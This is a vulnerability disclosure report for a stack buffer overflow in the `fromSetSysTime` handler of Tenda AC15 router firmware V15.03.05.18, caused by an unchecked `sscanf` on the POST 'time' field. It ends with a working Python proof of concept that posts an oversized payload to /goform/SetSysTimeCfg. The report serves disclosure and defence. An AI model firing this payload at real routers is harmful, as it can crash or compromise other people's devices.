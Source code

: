 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v20` variable receives the `time` parameter from a POST request and is assigned to `v7~v12` by `sscanf`. However, since the user can control the input of `time`, the statement `sscanf(v20, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", v12, v11, v10, v9, v8, v7);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v7~v12` array, triggering this security vulnerability.

![image-20240316222103120](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222103120.png)

![image-20240316222047423](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222047423.png)

![image-20240316222026197](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222026197.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'manual',
        'time':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316224625801](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316224625801.png)
